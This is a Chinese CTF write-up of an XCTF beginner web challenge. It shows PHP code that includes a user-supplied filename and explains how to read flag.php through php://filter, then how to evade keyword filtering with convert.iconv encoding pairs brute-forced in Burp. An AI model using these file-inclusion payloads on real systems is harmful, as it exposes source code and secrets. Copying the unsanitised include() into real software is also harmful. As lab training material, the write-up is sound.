



【攻防世界】 Web新手题

题目描述：怎么读取文件呢？

​	1、读懂代码，理解代码的运行流程，这样才能更好的解题

```php
<?php
highlight_file(__FILE__);
  include("./check.php");
  if(isset($_GET['filename'])){
    $filename = $_GET['filename'];
    include($filename);
  }
?>
```

​		分析：首先代码中的include("./check.php");包含check.php文件，疑似存在过滤，可能需要绕过。

​	2、要保证filename存在且不为空，那么这里我们可以用到php伪协议来读取文件

```
?filename=php://filter/read=convert.base64-encode/resource=flag.php
```

发现返回的是：


说明存在过滤，继续尝试，发现read，base64，encode等关键字被过滤了

​		还有救，别慌，了解到php中有两种转换器，作用就和名字一样。

```
string.*过滤器
convert.*过滤器
```

​	发现string也被过滤了：



​	测试convert.*：

​			使用方法：

​					convert.iconv.编码格式.编码格式

​					convert.iconv.编码格式/编码格式

​			php支持的编码格式有：			

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac（别名：MacJapanese）
SJIS-Mobile#DOCOMO（别名：SJIS-DOCOMO）
SJIS-Mobile#KDDI（别名：SJIS-KDDI）
SJIS-Mobile#SOFTBANK（别名：SJIS-SOFTBANK）
UTF-8-Mobile#DOCOMO（别名：UTF-8-DOCOMO）
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B（别名：UTF-8-KDDI）
UTF-8-Mobile#SOFTBANK（别名：UTF-8-SOFTBANK）
ISO-2022-JP-MOBILE#KDDI（别名：ISO-2022-JP-KDDI）
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1*
ISO-8859-2*
ISO-8859-3*
ISO-8859-4*
ISO-8859-5*
ISO-8859-6*
ISO-8859-7*
ISO-8859-8*
ISO-8859-9*
ISO-8859-10*
ISO-8859-13*
ISO-8859-14*
ISO-8859-15*
ISO-8859-16*
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES（别名：HTML）
7bit
8bit
EUC-CN*
CP936
GB18030
HZ
EUC-TW*
CP950
BIG-5*
EUC-KR*
UHC（别名：CP949）
ISO-2022-KR
Windows-1251（别名：CP1251）
Windows-1252（别名：CP1252）
CP866（别名：IBM866）
KOI8-R*
KOI8-U*
ArmSCII-8（别名：ArmSCII8）
```

​		接下来只需要放到bp工具里进行爆破了



​	爆出flag:

​		

